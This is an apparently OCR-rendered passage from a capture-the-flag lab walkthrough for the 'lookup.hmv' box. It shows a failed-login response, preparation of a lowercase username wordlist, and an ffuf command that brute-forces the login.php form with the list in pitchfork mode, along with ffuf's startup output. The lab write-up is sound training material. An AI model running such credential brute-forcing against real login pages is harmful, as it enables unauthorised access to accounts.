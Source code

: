 ```http
Content-Length: 74 ←
Connection: close
Content-Type: text/html; charset=UTF-8

Wrong username or password. Please try again.<br>Redirecting in 3 seconds. ←
```

<❌ Failed Step.>

`cat /usr/share/wordlists/seclists/SecLists-master/Usernames/xato-net-10-million-usernames.txt | tr '[:upper:]' '[:lower:]' | sort -u > ./xato_usernames_lowercase.txt`

`cat ./xato_usernames_lowercase.txt | head -n 10`:
```
$2003india
$2a_w2s
$2forholly
$4feiz
$4mazy
$6njvu
$6xyn
$7138444
$73dry
$7sehj
```

`ffuf -u "http://lookup.hmv/login.php" -d "username=USERNAME&password=PASSWORD" -w ./xato_usernames_lowercase.txt:USERNAME -w ./xato_usernames_lowercase.txt:PASSWORD -mode pitchfork -H "Content-Type: application/x-www-form-urlencoded" -fr "Wrong" -c -ic -t 30`:
```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://lookup.hmv/login.php
 :: Wordlist         : USERNAME: /home/kali/xato_usernames_lowercase.txt
 :: Wordlist         : PASSWORD: /home/kali/xato_usernames_lowercase.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=USERNAME&password=PASSWORD
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 30
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Wrong username or password.
________________________________________________

[...]
```
